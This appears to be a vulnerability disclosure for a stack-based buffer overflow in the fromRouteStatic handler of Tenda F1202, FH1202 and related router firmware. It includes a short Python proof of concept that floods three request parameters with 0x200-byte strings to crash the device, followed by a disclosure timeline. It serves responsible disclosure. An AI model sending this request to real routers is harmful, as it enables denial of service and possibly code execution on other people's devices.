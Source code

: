 # Tenda Router Vulnerability on fromRouteStatic function

This vulnerability lies in the `/goform/fromRouteStatic` page which influences the lastest version of Tenda Router F1202,FH1202. (The latest version is [F1202V1.0BR_V1.2.0.20(408)](https://www.tenda.com.cn/download/detail-2671.html))[FH1202_V1.2.0.19_EN](https://www.tendacn.com/us/download/detail-2693.html) and influence AC7V1.0,PW201A

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `page` and `mitInterface`.

In function `fromRouteStatic` it reads 1 user provided parameters `page` into `v3` and `mitInterface` into v2, and the variable is passed into function `sprintf` without any length check, which may overflow the stack-based buffer `v5`, it's the same with `v6`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/fromRouteStatic`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fromRouteStatic?"
url += "page=" + "s" * 0x200
url += "&mitInterface="+'s'*0x200 
url += "&entrys="+'s'*0x200


response = requests.get(url)
```

## Timeline

* 2022-06-29: Report to CVE & CNVD;


## Acknowledge